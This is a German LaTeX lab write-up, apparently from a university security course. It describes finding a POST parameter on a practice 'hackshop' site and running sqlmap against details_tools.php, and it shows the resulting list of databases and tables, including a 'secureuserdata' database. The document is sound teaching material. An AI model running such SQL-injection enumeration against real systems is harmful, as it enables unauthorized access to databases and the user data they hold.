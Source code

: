 \documentclass[10pt,a4paper]{article}
\begin{document}
\subsection*{b)}
Wir sind zunächst mal im Browser mal auf den Shop gegangen und haben geschaut, was er überhaupt macht. Man musste unten Nmap oder Wireshark auswählen und dann auf "`Details ansehen"' klicken. Hierdurch wurde man auf die Seite "`details\_tools.php"' weitergeleitet und bekommt ein paar Daten über das ausgewählte Tool.

Durch das Firefox-plugin "`Tamper Data"' konnten wir herausfinden, dass als Post beim Wechsel auf die "'details\_tools.php"' der wert tool=1 (für Nmap) bzw tool=2 (für Wireshark) übergeben werden. Dies können wir ausnutzen, um mit sqlmap die Datenbank(en) anzuschauen. Hierfür benutzen wir zunächst folgenden Befehl:

\begin{verbatim}
sqlmap -u hackshop.seclab.uni-paderrborn.de/details\_tools.php --data=tool=1 --tables
\end{verbatim}

Dieser Befehl gibt uns sowohl die vorhandenen Datenbanken, als auch die dazu gehörigen Tabellen:

\begin{verbatim}
Database: webshop
[2 tables]
+---------------------------------------+
| artikel                               |
| logs                                  |
+---------------------------------------+
\end{verbatim}

\begin{verbatim}
Database: secureuserdata
[1 table]
+---------------------------------------+
| accessdata                            |
+---------------------------------------+
\end{verbatim}

\begin{verbatim}
Database: information_schema
[28 tables]
+---------------------------------------+
| CHARACTER_SETS                        |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| GLOBAL_STATUS                         |
| GLOBAL_VARIABLES                      |
| KEY_COLUMN_USAGE                      |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
| REFERENTIAL_CONSTRAINTS               |
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| STATISTICS                            |
| TABLES                                |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| VIEWS                                 |
+---------------------------------------+
\end{verbatim}
\end{document}

